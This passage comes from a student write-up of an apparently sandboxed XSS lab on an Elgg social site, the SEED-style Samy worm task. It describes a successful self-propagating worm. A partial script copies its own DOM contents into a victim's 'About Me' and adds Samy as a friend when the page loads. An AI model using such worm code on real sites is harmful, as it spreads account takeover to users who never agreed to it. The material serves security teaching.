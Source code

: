 As the image below shows, the code worked well. We logged in as Boby and then accessed Samy's profile. After that, Boby's "**About Me**" was replaced by the code, and he also added Samy as a friend. 

<img style="width:75%; padding-left:12.5%; align-self:centre;" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_dec1ac7be0e5d7bd7808252fec128381.png"/>


(PS. we ensured that Samy is not friend of Boby before starting the task)

### 6.2 DOM Approach

In there, we reused most codes in the last section. The code section shows the changes we made. There are two: the first is the surrounded `<script>` tag with id, "worm", and the second is about the function `infectToProfile`.  Specifically, we changed the value of the `description`, in which we replaced the previous URL-importing to the actual codes. And we also used the `encodeURIComponent` function to convert it to URL encoding. 

```HTML
<script id=worm>
function infectToProfile(){
    ...    
    let description = encodeURIComponent(
        '<script id=worm>'
        + document.getElementById("worm").innerHTML
        + '</' + 'script>'
    ); 
    ...
}
function addSamyAsFriend () {
    ...
}
window.onload = function () {
    // Make sure it will not changed Samy's profile
    // And ensure Samy will not add himself as friend 
    if(elgg.session.user.guid!=47){ 
        infectToProfile()
        addSamyAsFriend()
    }
}
</script>
```

We put the codes directly into Samy's "**About Me**", and redid the steps in last section. The image below shows it also worked well when Boby accesses Samy's profile.

<img style="width:75%; padding-left:12.5%; align-self:centre;" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_431b17316feb0b38f97265a518e4e48a.png"/>

<div style="page-break-after: always;"></div>

## TASK07: Countermeasures

### 7.1 Preparation

In the task, we prepared two victim: Boby and Alice. The attacker is Samy. Charlie's account was unattacked before starting the task.
